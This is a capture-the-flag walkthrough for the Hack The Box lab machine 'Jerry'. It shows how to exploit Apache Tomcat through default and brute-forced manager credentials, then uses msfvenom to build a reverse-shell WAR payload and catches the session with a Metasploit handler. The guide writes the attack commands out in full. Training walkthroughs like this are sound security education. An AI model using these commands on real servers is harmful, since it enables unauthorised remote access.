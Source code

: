 # Jerry

Jerry is a machine that uses `Apache Tomcat`, an open-source application designed to serve web pages developed in `Java`. We are going to exploit this machine using `Metasploit`.

First, let's confirm we have a connection to the target machine by using the `ping` tool, and then check for running applications using `nmap`.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

You can use the `-sC` switch for scripts to identify potential vulnerabilities, configuration issues, and additional service details. The `-sV` switch is for service version detection, which will send probes to the ports and compare them against a database.

If we type the web page in our browser, we access the Tomcat webpage. Make sure to add `:8080` at the end to specify the correct port running on the web server.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

If we click the `Server Status` page, we get prompted to add credentials. In this case, `Admin:Admin` works, but it takes us to a web page that contains no information beneficial to our pentest.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can try to click `Manager App` or `Host Manager` and utilize the same credentials, but that does not work, as seen by the `403` status code.

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

For a fun exercise, you can run `Burp Suite` as a proxy and catch the `HTTP GET` request. Inside the request will be the credentials `Admin:Admin` you entered in the `Authorization` header, encoded as base64. If you decode it in `Burp` as base64, you will see `Admin:Admin`. Pretty cool.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Obviously, this website already uses weak credentials, so we are going to try to brute force the password on this website using a tool called `Hydra`.



Clone a list of your choice, Daniel Miessler has some amazing content.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Let's identify a list of passwords commonly used for Tomcat applications.

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Once we have identified the list we want to use, run `hydra -h` to get a list of options available from the tool.

We can use the `-C` switch to specify the brute force password list we would like to use with the tool.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Run the command, and we identify credentials that work with the `/manager/html` page. It is odd that Hydra determined `Admin:Admin` works, as it actually does not. Anyways...it looks like `tomcat:s3cret` will work. Try these credentials on the `Manager App` link on the website.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

The page is a directory of war files. We can try to deploy our own war file to get the application to execute code of our choice. `Msfvenom` is the tool of choice here, as it allows us to build reverse shell payloads using different file types. Run the following commands to build the malicious payload.

```shell
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat.war
```

The malicious file is now developed. Next, we can use the `Metasploit` framework to set up a reverse shell listener on our machine, so when the malicious war file is downloaded, we can catch and enter into the shell.

```shell
msfdb run
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpretor/reverse_tcp
msf6 > set LHOST tun0
msf6 > set LPORT 9001
msf6 > exploit -j
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Deploy the war file in the `Manager App`.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unzip the folder in your directory, and grab the file ending in `.jsp`. Add the name of this file to the end of the URL in your web browser. This will execute your war file, and the reverse shell listening on your machine should catch the connection.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell
10.10.10.95:8080/tomcat1/dnawdram.jsp
```

Go back to the `Metasploit` listener and check if a session has started.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

You can run the following commands to find the flag:

```shell
shell
whoami
dir
cd Administrator
cd Desktop
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Congrats! You have successfully completed Jerry.&#x20;

References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}
